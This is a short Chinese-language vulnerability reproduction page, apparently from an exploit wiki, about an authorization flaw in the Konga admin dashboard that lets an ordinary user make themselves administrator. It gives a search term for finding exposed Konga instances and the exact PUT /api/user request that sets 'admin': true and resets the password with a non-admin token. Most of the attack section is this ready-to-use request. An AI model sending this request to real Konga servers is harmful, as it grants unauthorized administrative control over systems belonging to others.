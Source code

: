# Konga 普通用户越权获取管理员权限漏洞

## 漏洞描述

Konga 普通用户通过发送特殊的请求可越权获取管理员权限

## 漏洞影响

<a-checkbox checked>Konga</a-checkbox></br>

## 网络测绘

<a-checkbox checked>"konga"</a-checkbox></br>

## 漏洞复现

登录页面



![img](../../../.vuepress/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220313131947280.png)



创建非管理员用户后登录并获取token

![img](../../../.vuepress/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220313131947390.png)



发送请求包, 将token修改为刚刚获取的

```plain
PUT /api/user/7 HTTP/1.1
Host: 127.0.0.1:1337
Accept: application/json, text/plain, */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/json;charset=utf-8
Content-Length: 241

{
  "admin": true,
  "passports": {
    "password": "1234abcd",
    "protocol": "local"
  },
  "password_confirmation": "1234abcd",
  "token": "non-administrator user token"
}
```

![img](../../../.vuepress/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220313131947376.png)

成功转为管理员用户

![img](../../../.vuepress/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220313131947324.png)